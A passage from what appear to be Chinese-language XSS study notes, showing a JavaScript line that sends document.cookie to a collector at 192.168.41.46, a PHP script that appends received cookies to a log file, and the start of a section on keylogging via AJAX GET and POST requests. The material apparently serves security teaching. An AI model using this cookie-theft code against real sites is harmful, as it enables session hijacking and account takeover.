    ```
img.src='http://192.168.41.46/xss/cookie/cookie.php?cookie=' 
+ encodeURIComponent(document.cookie);

//cookie.php文件，接收cookie.js传递出的数据，并存储在txt文件中
<?php
$cookie = $_GET['cookie'];
$log = fopen('cookie.txt','a');
fwrite($log,$cookie.PHP_EOL);
fclose($log);
?>
```

#### (2)获取键盘记录

* 利用**ajax发送HTTP**请求

##### a. 发送请求

* 使用**open()和send()**方法

  <img src="../../images/9-12-morning/AJAX方法.png" alt="AJAX方法" style="zoom:33%;" />

###### ①GET请求

```js
xmlhttp.open("GET","url地址",true);
xmlhttp.send();
```

###### ②POST请求

```js
xmlhttp.open("POST","url地址",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("fname=Henry&lname=Ford");

```
